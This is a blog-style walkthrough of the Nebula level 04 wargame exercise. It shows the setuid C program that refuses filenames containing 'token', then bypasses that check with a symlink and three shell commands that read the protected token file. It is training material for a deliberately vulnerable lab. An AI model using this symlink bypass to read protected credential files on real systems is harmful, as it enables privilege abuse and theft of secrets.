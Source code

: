 ```yaml
---
title: "Exploit Exercises - Nebula Level 04"
date: 2014-01-10 20:43:48+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04 . Files for this level can be found in /home/flag04.

<!-- more -->

### Solution

Source code for /home/flag04/flag04 is 

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

This one is easy, just creating a soft link in the home directory of user *level04*, and making it readable for user *flag03* could bypass the check of the above code, of cause the name of the sofe link could not be *token* :-P.

``` bash
$ ln -s /home/flag04/token /home/level04/aa
$ chmod a+rx /home/level04
$ /home/flag04/flag04 /home/level04/aa
```

<!-- 06508b5e-8909-4f38-b630-fdb148a848a2 -->

And it works!

